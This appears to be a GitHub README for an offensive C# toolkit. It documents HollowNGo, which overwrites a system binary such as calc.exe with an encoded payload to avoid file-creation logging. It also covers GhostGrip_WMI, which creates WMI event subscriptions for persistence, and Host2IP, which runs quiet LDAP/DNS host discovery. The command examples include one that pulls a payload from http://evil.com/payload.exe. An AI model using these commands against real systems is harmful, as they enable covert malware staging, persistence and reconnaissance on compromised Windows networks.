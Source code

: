 ![Alt text](SHARP.png) /examples/ ![](SHARP.png)




HollowNGo aims to avoid FileCreation Events by reading your payload as a byte array, compressing them, and converting the compressed bytes to base64 to a memorysteam. setting the target file stream length to 0, then the same encoding operation in reverse to write to the target file. There are a few options when running the tool as shown below.

Create compressed encoded binary data (This is expected to run on your dev box not the target)
HollowNGo.exe -encode <source.exe> -output <output.txt>
Example: HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt

Via data output from -encode option
HollowNGo.exe -source <base64_content> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -sourcelocal <EvilB64.Code> -target C:\Windows\System32\calc.exe

Via remote hosted file
Usage: UsageHollowNGo.exe -sourceremote <SourceURI> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -sourceremote http://evil.com/payload.exe -target C:\Windows\System32\calc.exe



GhostGrip_WMI creates a WMIEventSubscription for your prefered event for persistence and execution method. Use HollowNGo prior to set up your executable to avoid FileCreation Events.

Usage: GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -execution <executiontype> -randomizename <true/false>
Example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -execution direct -randomizename true
Example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type logon -execution invoke-wmimethod -randomizename false



Host2IP aims to be a little less noisy than SMB/ICMP scans to find hosts within a domain environment. Host2IP uses LDAP queries to get a list of hostnames, which are then resolved via DNS, achieved via slow/fast mode to control the network traffic rate. If your current process does not have not have the correct domain priviliges you will have to provide credentials.

Usage: Host2IP.exe -domain <domain_name> -mode <fast/slow> -auth <true/false> -user <username> -password <password>
Example: dotnet inline-execute Host2IP.exe -domain target.local -mode fast -auth false
Example: dotnet inline-execute Host2IP.exe -domain target.locol -mode slow -auth true -user TheRat -password pass123!

